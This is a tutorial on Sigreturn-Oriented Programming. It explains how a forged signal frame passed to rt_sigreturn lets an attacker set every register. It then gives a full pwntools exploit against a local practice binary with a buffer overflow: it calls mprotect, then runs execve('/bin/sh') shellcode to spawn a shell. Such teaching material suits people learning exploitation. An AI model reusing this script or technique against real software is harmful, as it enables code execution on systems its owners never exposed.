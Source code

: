 # Sigreturn-Oriented Programming (SROP)

This is a technique which can be used when there are few or not particularly useful gadgets. It requires only 2 gadgets: a way to manipulate `rax` and a `syscall`. The trade-off, however, is that it requires a bigger overflow depending on what you want to achieve.

When a signal occurs in Linux, the kernel stores the state of the process by constructing a *Signal Frame* on the stack. Once the signal has been processed, the `rt_sigreturn` syscall is envoked to restore the process's state from the stack. `rt_sigreturn`, however, does not check whether or not the state it is restoring from the stack is the same as the state that the kernel pushed onto it. Usually, this is not a problem because `rt_sigreturn` is never called without a signal having been processed - the syscall for it in libc is actually defined to just return an error code. Interestingly enough, there are also no protection mechanism to ensure that `rt_sigreturn` is called only after a signal has been processed which means that nothing is stopping an adversary from calling it and modifying the process's state by manipulating what is on the stack.

## The Signal Frame

The signal frame represents the state of a process which is backed up onto the stack when a signal needs to be handled and has the following format:

![[res/Signal Frame.svg]]

When `rt_sigreturn` is invoked, the top 248 bytes of the stack will be restored into the above locations.

## The Exploit
Consider the following programme:

![[res/checksec srop.png]]

![[res/Sigreturn Programme.png]]

The highlighted code allows an adversary to read 768 bytes into a buffer of size only 32, which results in a buffer overflow. In order to trigger the buffer overflow, we can inspect the code and calculate (alternatively you can fuzz the programme) the number of padding bytes which we will need - this turns out to be 40. Since the NX is enabled, we will need to build a ROP chain. Unfortunately, there is a little snag - there are barely any gadgets available. 

![[res/SROP Gadgets.png]]

So we will have to be more sophisticated and use Sigreturn-oriented programming. We see that there is a readily-available `syscall` gadget, but there is no straightforward way to manipulate the `rax` registered which is needed for issuing syscalls.

Upon further inspection, the `loc.write` procedure invokes `sys_write` which is lucky for us because if `sys_write` is successful, it returns the number of characters written in `rax`. Now that we know how to manipulate `rax`, we turn our attention to the construction of our ROP chain.

The ROP chain begins by invoking `loc.vuln` again, so that it may in turn invoke `loc.write`. Once `loc.vuln` is called, the programme will ask us for input. We need to send 14 characters (the 15-th being the `\n` at the end) to it, so that `loc.write` can then print those 15 characters and set `rax` equal to 15 as a result. Once these characters have been written, `loc.vuln` will return execution to our ROP chain. Since `rax` now contains the syscall number of `rt_sigreturn`, namely 15, the next instruction in the ROP chain should be `syscall`.

`rt_sigreturn` will take the top 248 bytes of the stack and attempt to restore the state of the process from them. This means that all registers will be overwritten with values from the stack. Since we control what is on the stack via the buffer overflow, we also control what gets put into those registers. Therefore, the payload for the ROP chain should also contain an artificial signal frame after the `syscall` instruction, which will be the top of the stack.

From here on, all that is left is figuring out a quick way to get a shell. I have opted for some shellcode which invokes `execve` with `"/bin/sh"`. To do this we need to use `sys_mprotect` to change the permissions of a memory region to read-write-execute. Therefore, the registers inside our malicious signal frame should contain the following values:
- `rax` - `0xA` (the number for the `sys_mprotect` system call)
- `rdi` - the beginning of the memory region whose permissions we want to change
- `rsi` - the size of the memory region 
- `rdx` - `0x7` (RWX permissions)
- `rip` - the address of the `syscall` gadget

Now, it would have been nice if we had a way to preserve the value of the stack pointer, but that is not possible. Since we are forced to overwrite it, however, we might as well make do with what we can. We have no way of referring to the stack prior to `rt_sigreturn`, so we will just invent a new one!

In order to achieve this, we need to find a location in memory which contains the address of `loc.vuln`, even if it does so only coincidentally. The reason for this is that, after `rt_sigreturn` finishes, `rip` will be set to the `syscall` gadget which will execute `sys_mprotect`. The instruction after the syscall is a `ret` which means that the value of the location pointed to by `rsp` will be copied to `rip`, and we want it to then proceed again with the execution of `loc.vuln`. Hence why `rsp` should contain a *pointer* to the address of `loc.vuln`. 

Now that memory is executable, we proceed by exploiting `loc.vuln` yet another time in order to execute the shellcode which spawns a shell. 

![[res/Sigreturn Exploit.svg]]

With this information we can construct an exploit using pwntools:

```python
from pwn import *

context.clear(arch='amd64')

p = process("./srop")

syscall_address = 0x401014 # &syscall
sigreturn_number = 0xF
mprotect_number = 0xA
mprotect_permissions = 0x7

vuln_address = 0x40102e # &loc.vuln()
pointer_to_vuln_address = 0x4010d8 # &&loc.vuln() - using a debugger, I found that this location contains 0x40102e at runtime

padding = b'A' * 40

signal_frame = SigreturnFrame(kernel="amd64")
signal_frame.rax = mprotect_number
# It does not matter what memory we make RWX, but for simplicity, we are just going to make a huge chunk from the beginning of the binary executable. We just need to make sure that the new stack will be contained in it.
signal_frame.rdi = 0x400000 # Beginning of the memory block (in this case, the binary)
signal_frame.rsi = 0x10000 # Size of the memory block
signal_frame.rdx = mprotect_permissions
signal_frame.rip = syscall_address # This will proceed to execute sys_mprotect
signal_frame.rsp = pointer_to_vuln_address # Beginning of the new stack

payload = padding + p64(vuln_address) + p64(syscall_address) + bytes(signal_frame)
p.sendline(payload)
p.recv()

# Send 15 characters (14*'A' + '\n')
p.sendline(b'A' * (sigreturn_number - 1))
p.recv()

# Remove the comments in the assembly in order for it to compile
shellcode = asm("""
mov rdi, 0x68732f6e69622f ; '/bin/sh\x00' in little-endian
push rdi
mov rdi, rsp
mov rax, 0x3b ; execve syscall number
xor rsi, rsi
xor rdx, rdx
syscall
""", arch="amd64")

# The stack pointer will be moved 40 bytes down and the padding will take those 40 bytes, reaching pointer_to_vuln_address. We then add 1 byte for the value contained at pointer_to_vuln_address itself and then add 1 more byte to make room for the actual shellcode_address.
shellcode_address = pointer_to_vuln_address + 0x10

payload = b'A'*40 + p64(shellcode_address) + shellcode
p.sendline(payload)

p.interactive()
```

![[res/Sigreturn shell.png]]